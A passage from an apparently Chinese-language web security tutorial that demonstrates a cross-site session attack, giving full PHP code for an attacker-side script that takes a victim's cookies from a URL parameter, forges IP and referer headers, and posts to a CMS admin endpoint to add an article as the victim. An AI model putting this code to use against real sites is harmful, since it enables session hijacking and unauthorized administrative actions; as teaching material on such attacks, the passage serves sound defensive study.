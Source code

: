 现在再点击链接`点击我，有惊喜！`，查看一下一下网络请求，会发现一个到session.myhack.com/httphack.php地址的请求，返回数据为`var data = {"code":0};`。
![跨站请求](http://git.oschina.net/yunnysunny/hack/raw/master/session/img/cross_request.jpg)
**图2.3 跨站请求**

接着看看httphack.php干了啥：

````php

    <?php
    error_reporting(E_ALL);
    header("Content-type:application/javascript");
	
     function getRealIp()
    {
		$ip = '127.0.0.1';
		$ipname = array(
			'REMOTE_ADDR',
			'HTTP_CLIENT_IP',
			'HTTP_X_FORWARDED_FOR',
			'HTTP_X_FORWARDED',
			'HTTP_X_CLUSTER_CLIENT_IP',
			'HTTP_FORWARDED_FOR',
			'HTTP_FORWARDED'
		);
       foreach ($ipname as $value)
       {
           if (isset($_SERVER[$value]) && $_SERVER[$value]) {
				
				$ip = $_SERVER[$value];
				break;
		   }
       }
       return $ip;
    }
	$ip = getRealIp();
	$cookies = isset($_GET['cook']) ? $_GET['cook'] : '';
	$headers = array(
		'User-Agent:'.$_SERVER['HTTP_USER_AGENT'],
		'X-FORWARDED-FOR:'.$ip,
		'Remote-Addr:'.$ip,
		'Cookie:'.$cookies
	);
	$ch = curl_init();
	curl_setopt($ch, CURLOPT_URL, "http://mycms.whyun.com/back/article/article_add.php");
	// 设置cURL 参数，要求结果保存到字符串中还是输出到屏幕上。
	curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
	curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);  //构造IP
	curl_setopt($ch, CURLOPT_REFERER, $_SERVER['HTTP_REFERER']);   //构造来路
	curl_setopt($ch, CURLOPT_HEADER, 0);
	
	curl_setopt($ch, CURLOPT_POST, true);
	$params = array('title'=>'这是跨站攻击测试','content'=>'网站被跨站攻击了');
	curl_setopt($ch, CURLOPT_POSTFIELDS, http_build_query($params));
	
	$out = curl_exec($ch);
	curl_close($ch);
	
	$data = json_encode($headers);
	echo "var data = $out;";
	
````
